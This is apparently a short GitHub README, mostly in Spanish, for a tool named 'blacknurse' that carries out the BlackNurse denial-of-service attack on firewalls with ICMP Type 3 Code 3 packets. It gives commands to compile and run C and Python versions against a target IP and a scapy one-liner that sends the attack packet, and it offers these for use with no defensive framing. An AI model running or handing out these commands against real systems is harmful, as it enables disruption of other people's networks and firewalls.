 # blacknurse
Black Nurse DOS Attack Firewall ( ICMP Type 3 Code 3 )

Ejecutar en c:
gcc blacknurse.c -o blacknurse
./blacknurse IP

Ejecutar en Python:
python blacknurse.py IP

Ejecutar con scapy: 
send(IP(dst="1.2.3.4")/ICMP(code=3,type=3))

